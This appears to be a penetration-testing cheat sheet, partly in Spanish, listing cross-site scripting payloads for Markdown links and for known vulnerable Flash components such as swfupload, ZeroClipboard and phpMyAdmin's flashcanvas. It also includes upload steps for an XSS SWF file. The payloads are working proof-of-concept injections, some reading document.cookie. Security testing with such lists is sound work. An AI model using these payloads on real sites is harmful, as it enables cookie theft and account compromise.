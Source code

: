 ### XSS in Markdown

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
[clickme](javascript:alert`1`)
```

### XSS in SWF flash application

Necesitará un swf XSS. Ese archivo "xss.swf" se puede obtener en el directorio "Files PoC" dentro de "XSS Injection".

Cárguelo en el servidor que está probando.

Una vez que vea se carga el fichero en el servidor y no le pide "descargar" o que se "refleje" en el servidor, es cuando se almacena el código XSS.

Simplemente agregue:

`?js=alert(document.domain);` al final de su ".swf" y debería mostrar el XSS.

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);

IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}

IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

### XSS in SWF flash application

```
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
phpmyadmin/js/canvg/flashcanvas.swf?id=test\”));}catch(e){alert(document.domain)}//
```
